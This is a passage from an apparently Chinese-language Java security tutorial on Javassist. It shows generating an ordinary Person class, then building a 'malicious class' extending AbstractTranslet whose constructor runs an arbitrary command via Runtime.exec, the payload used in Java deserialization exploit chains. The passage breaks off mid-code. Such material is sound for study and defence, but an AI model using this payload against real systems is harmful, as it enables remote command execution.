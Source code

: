 ```bash
        //设置方法体
        ctMethod.setBody("{System.out.println(name);}");
        //将该方法添加进 Person 中
        ctClass.addMethod(ctMethod);
        //将生成的字节码写入文件
        ctClass.writeFile("D:\\Tomcat\\CC\\src\\main\\java\\JavaassitTest");
    }

    public static void main(String[] args) throws NotFoundException, CannotCompileException, IOException {
        CreateClass();
    }
}
```

然后我们来看一下我们生成的 Person 类

```bash
public class Person {
    private String name = "Ic4F1ame";

    public void setName(String var1) {
        this.name = var1;
    }

    public String getName() {
        return this.name;
    }

    public Person() {
        this.name = "Ic4F1ame";
    }

    private void printName() {
        System.out.println(this.name);
    }
}
```

### 生成恶意类：

因为恶意类需要继承`AbstractTranslet`类，并重写两个`transform()`方法。否则编译无法通过，无法生成`.class`文件，但是执行的时候我们并没有用到两个方法，同时使用 Javassit 生成的时候直接生成的是字节码类型的恶意类，所以跳过了编译的过程，就不需要引入重写的方法：

```bash
package EXPShell;
import javassist.*;

import java.io.File;
import java.io.FileOutputStream;
import java.io.IOException;
public class GetShellCode {

    public static CtClass getTemplatesImpl(String cmd) {
        CtClass ctClass = null;
        try {
            ClassPool pool = ClassPool.getDefault();
            ctClass = pool.makeClass("A");
            CtClass superClass = pool.get("com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet");
            ctClass.setSuperclass(superClass);
            CtConstructor constructor = CtNewConstructor.make("public A(){Runtime.getRuntime().exec(\"" + cmd + "\");\n}", ctClass);
            ctClass.addConstructor(constructor);
            return ctClass;
```